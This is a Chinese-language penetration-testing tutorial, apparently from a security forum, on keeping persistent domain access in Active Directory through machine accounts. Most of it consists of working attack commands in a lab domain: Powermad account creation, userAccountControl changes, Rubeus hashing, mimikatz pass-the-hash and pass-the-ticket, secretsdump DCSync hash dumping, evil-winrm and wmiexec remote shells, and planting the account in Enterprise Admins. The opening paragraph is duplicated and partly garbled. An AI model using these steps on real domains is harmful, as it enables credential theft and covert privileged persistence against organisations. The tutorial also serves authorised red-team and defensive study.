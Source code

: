 
## 如何使用机器账户进行域维权

- - -

## [0x00 前言](#toc_0x00)

机器账户在许多技术中可以用于提权或横向移动，如使用机器账户的委派进行dcsyn了上述作用，使用机器账户也可进行维权操作。我们可以将任意计算机账户添加到高权限组(例如Domain Admin、Domain Controllers、Enterprise Admins) 或对计算机账户的userAccountControl属性进行修改。使用这两种方式，我们可以通过机器账户在域内进行身份认证（因为密码已知）并进行提权操作，例如Dcsync拖取域内hash。

除了上述作用，使用机器账户也可进行域维权操作。我们可以将任意计算机账户添加到高权限组(例如Domain Admin、Domain Controllers、Enterprise Admins) 或对计算机账户的`userAccountControl`属性进行修改。使用这两种方式，我们可以通过机器账户在域内进行身份认证（因为密码已知）并进行提权操作，例如Dcsync拖取域内hash。

## [0x01 userAccountControl说明](#toc_0x01-useraccountcontrol)

默认的情况下，域中的标准用户最多可以创建10个机器账户，这是由**ms-DS-MachineAccountQuota**进行设定的。我们可以使用Powermad等工具从加入域和未加入域的主机中进行添加账户操作。但为了让机器账户在域中显示为域控制器，我们还需要将`userAccountControl`属性设置为0x2000(SERVER\_TRUST\_ACCOUNT)的值。0x2000换算为十进制数字为8192.修改此属性需要域管理员级别的权限。下面我们从ADSI编辑器中进行修改，改为8192  
[![image.png](assets/1698894631-574c27196eb8c4ce09ea680f655ffa90.png)](https://storage.tttang.com/media/attachment/2022/02/19/da789952-56e5-4424-8a42-861b724b2672.png)

## [0x02 PowerMad+Active Directory组合:](#toc_0x02-powermadactive-directory)

### [添加机器账户](#toc_)

我们在进行维权时，可以从利用工具从命令行创建机器账户。例如Standln、SharpMad以及PowerMad等工具；下面展示如何利用PowerMad在域内添加一个机器账户。

```plain
Import-Module .\Powermad.ps1
New-MachineAccount -MachineAccount Nayon -Domain attack.local -DomainController dc.attack.local
```

[![image.png](assets/1698894631-fe369f18f15e414c7cfd8d3f46a11bf2.png)](https://storage.tttang.com/media/attachment/2022/02/19/5386ea9f-a3b5-496e-9177-b79d6bcdfc34.png)  
此时我们便添加机器账户成功了，利用如下命令查看:

```plain
net group "domain computers" /domain
```

[![image.png](assets/1698894631-45925d56f973b23cffc2ff57f74bb4a4.png)](https://storage.tttang.com/media/attachment/2022/02/19/cb758965-fbeb-423e-825a-478fce1708c9.png)

### [修改机器账户userAccountControl属性值](#toc_useraccountcontrol)

我们所创建的这台机器账户primarygroupid经过查询可知是515，他是域组的RID，表示这是一台域计算机，利用Active-Module模块，使用域管权限账户为计算机账户Nayon修改`userAccountControl`值为8192，则primarygroupid将更改为属于域控制器（可写）的 516。

```plain
Get-ADComputer Nayon -pro * | Select-object name, primarygroupid, useraccountcontrol
Set-ADComputer Nayon -replace @{ "userAccountcontrol" = 8192 }
```

[![image.png](assets/1698894631-d78f511a7a2fe639968ed71b92e5b8f6.png)](https://storage.tttang.com/media/attachment/2022/02/19/df2793c3-84a9-4005-be66-2f932c5d597b.png)

此处为执行效果。

### [获得机器账户hash](#toc_hash)

由于我们已知机器账户的密码，因此我们可以利用它的NTLM 、aes128、aes256 hash 来进行pth，用于获得一个拥有域控制器权限的会话。

利用Rubes将Nayon账户的明文密码转为NTLM hash，用于维权时进行的pth。

```plain
Rubeus.exe hash /user:Nayon /password:Password@1! /domain:attack.local
```

[![image.png](assets/1698894631-8f4c55a07a3ed0f29d3b2aaf45006174.png)](https://storage.tttang.com/media/attachment/2022/02/19/e24b6e10-0f8b-453a-a9d4-8f0a51cf4ccf.png)  
如图所示，成功拿到了机器账户的hash。

### [利用方式:](#toc__1)

#### [PTH传递获得权限](#toc_pth)

在域内机器上利用mimikatz进行pth攻击，成功弹回具有Nayon用户权限的新会话。

```plain
sekurlsa::pth /user:Nayon /domain:attack.local /aes128:95F9380561068098A673F425207EFA0D
```

[![image.png](assets/1698894631-35429b832ffec4a3821169371e123d90.png)](https://storage.tttang.com/media/attachment/2022/02/19/46e96116-5e33-41e4-832f-8bd5c06b13de.png)  
**注意：此处拿到的会话，唯有域用户处于高权限组内才可使用dcsync获得域内hash。**

#### [利用PTT获得权限](#toc_ptt)

由于PTH是需要本地管理员权限的，若我们此时连本地管理员权限都没有，我们还可以使用mimikatz自带的ptt功能拿到相应权限。

**注意：此处拿到的会话，本人本地测试即使是将机器用户的`userAccountConrol`属性值改为8192也无法执行dcsync获得域内hash，唯有划入域内高权限组内可以使用机器账户权限执行dcsync。**

利用利用Rubes申请拿到机器账户的hash

```plain
Rubeus.exe hash /user:Nayon /password:123456 /domain:attack.local
```

使用keke申请tgt票据，用于下一步的ptt攻击

```plain
tgt::ask /user:Nayon2 /domain:attack.local /ntlm:32ED87BDB5FDC5E9CBA88547376818D4
```

[![image.png](assets/1698894631-a5f7c1a85d1897ed828c3e27888b7084.png)](https://storage.tttang.com/media/attachment/2022/02/19/cde4091a-1b95-4430-80f7-baa9fcfa77c5.png)

```plain
kerberos::ptt  TGT_Nayon@ATTACK.LOCAL_krbtgt~attack.local@ATTACK.LOCAL.kirbi
```

[![image.png](assets/1698894631-7ff2850feb92c44ed2a0ecbd110c54c4.png)](https://storage.tttang.com/media/attachment/2022/02/19/8092c95f-47e4-474e-a79a-023103564a12.png)  
此时成功拿到域内hash

#### [利用impacket套件执行dcsync](#toc_impacketdcsync)

使用Impacket套件中的secretsdump.py脚本，结合域内机器账户的凭证拖取域内hash

```plain
python3 secretsdump.py attack.local/Nayon\$:'Password@1!'@10.10.10.165 -just-dc
```

[![image.png](assets/1698894631-4e8eceb048d8b5db4acbbd1cd180f7f1.png)](https://storage.tttang.com/media/attachment/2022/02/19/07bf8a43-30cb-4226-a8d5-9da859f3310b.png)  
利用其中的域管NTLM hash与域控机进行通信

#### [Evil-WinRM通过WinRM远程链接](#toc_evil-winrmwinrm)

前提是域管开启WinRM服务，默认端口5985

指定域管用户以及域管用户的NTLM hash 远程链接

```plain
evil-winrm -i 10.10.10.165 -u administrator -H dbf36575210cc5a38ab4050cc6a2e9aa
```

[![image.png](assets/1698894631-4bc42f9e8d83f85ed04a276867f05930.png)](https://storage.tttang.com/media/attachment/2022/02/19/bce64d3c-5ea0-4001-ab7e-284f3ad009fa.png)

#### [Impacket套件wmiexec.py远程链接](#toc_impacketwmiexecpy)

```plain
python3 wmiexec.py -hash dbf36575210cc5a38ab4050cc6a2e9aa administrator@10.10.10.165
```

[![image.png](assets/1698894631-ebef7f9e3240b7e2956a99ba928de237.png)](https://storage.tttang.com/media/attachment/2022/02/19/a2efb02a-10bc-4e09-abce-170d6400fcf6.png)

### [加入高权限用户组用以维权](#toc__2)

除去域用户之外，域内机器账户也可以添加到高权限用户组中用以维权。利用Active Directory模块查询域管用户所在的用户组。

```plain
Get-ADGroupMember "administrators"
```

[![image.png](assets/1698894631-d13cc292a588fa657ca7253c64d88c3f.png)](https://storage.tttang.com/media/attachment/2022/02/19/0f1039f6-54c2-42a2-974a-b8e0bddfa8fa.png)

使用域管权限的会话添加机器账户Nayon$到高权限用户组内。

可加入Enterprise Admins、Administrators、Domain Admins等高权限组内用以维权。

```plain
net group "Enterprise admins" Nayon$ /add /domain
```

利用net group查看是否被添加成功

```plain
net group "Enterprise admins" /domain
```

[![image.png](assets/1698894631-8488cb4aa17aa62247c338fadc00eaf4.png)](https://storage.tttang.com/media/attachment/2022/02/19/2e9f88bc-cade-430c-8a01-ae5e39dd59aa.png)

此时我们便可以使用Impacket中的secretsdump项目获得域内hash

```plain
python3 secretsdump.py attack.local/Nayon\$:'123456'@10.10.10.165 -just-dc-user krbtgt
```

[![image.png](assets/1698894631-c6cd97c0ef620c54209f5b646598cbfe.png)](https://storage.tttang.com/media/attachment/2022/02/19/956559a3-f651-4e19-99b2-01dbde141504.png)

参考链接:  
[https://pentestlab.blog/2022/01/17/domain-persistence-machine-account/](https://pentestlab.blog/2022/01/17/domain-persistence-machine-account/)

- - -
